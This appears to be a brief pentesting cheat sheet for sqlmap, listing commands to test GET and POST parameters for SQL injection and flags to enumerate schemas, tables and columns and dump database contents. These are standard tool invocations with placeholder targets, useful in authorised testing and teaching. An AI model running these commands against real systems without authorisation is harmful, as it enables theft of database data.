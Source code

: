 # SQLMAP
## Testing SQLi
- GET Request: `sqlmap -u "http://ip/?param1=param1&param2=param2"`
- POST Request: `sqlmap -r path/to/burp-request -p param1,param2`

## Exploiting SQLi
- Show schemas: `--dbs`
- Show tables: `-D schema_name --tables`
- Show columns: `-D schema_name -T table_name --columns`
- Dumping: `--dump`

# No HTTP SQLMap
https://haqpl.github.io/Introducing-sqlmap-into-non-HTTP-services
